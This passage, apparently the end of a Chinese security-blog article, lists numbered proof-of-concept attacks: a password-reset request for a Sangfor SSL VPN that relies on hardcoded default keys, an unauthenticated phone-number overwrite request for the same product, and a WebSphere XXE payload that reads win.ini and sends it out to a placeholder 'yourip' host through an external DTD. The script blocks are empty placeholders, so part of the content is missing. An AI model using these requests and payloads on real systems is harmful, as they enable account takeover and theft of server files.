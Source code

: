 ```
br
```

#### **20. 某信服 SSL VPN 任意密码重置**

#### 某信服 VPN 加密算法使用了默认的 key, 攻击者构利用 key 构造重置密码数据包从而修改任意用户的密码利用: 需要登录账号 M7.6.6R1 版本默认 key 为 20181118，M7.6.1 版本默认 key 为 20100720sangfor_key.py 脚本：  

```
br
```

POC:  

https://<PATH>/por/changepwd.csp(post)sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR&len=(sangfor_key.py 脚本计算后结果的值)

#### **21. 某信服 SSL VPN 修改任意账户手机号**

修改手机号接口未正确鉴权导致越权覆盖任意用户的手机号码

利用: 需要登录账号  

```
https://<PATH>/por/changetelnum.csp?apiversion=1(POST)newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
```

**22.WebSphere XXE POC**

具体分析：具体分析在这里 https://paper.seebug.org/1342/  

```
xml如下：<!DOCTYPE x [     <!ENTITY % aaa SYSTEM "file:///C:/Windows/win.ini">     <!ENTITY % bbb SYSTEM "http://yourip:8000/xx.dtd">     %bbb; ]> <definitions >  &ddd; </definitions> xx.dtd如下：<!ENTITY % ccc '<!ENTITY ddd '<import namespace="uri" location="http://yourip:8000/xxeLog?%aaa;"/>'>'>%ccc;
```

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**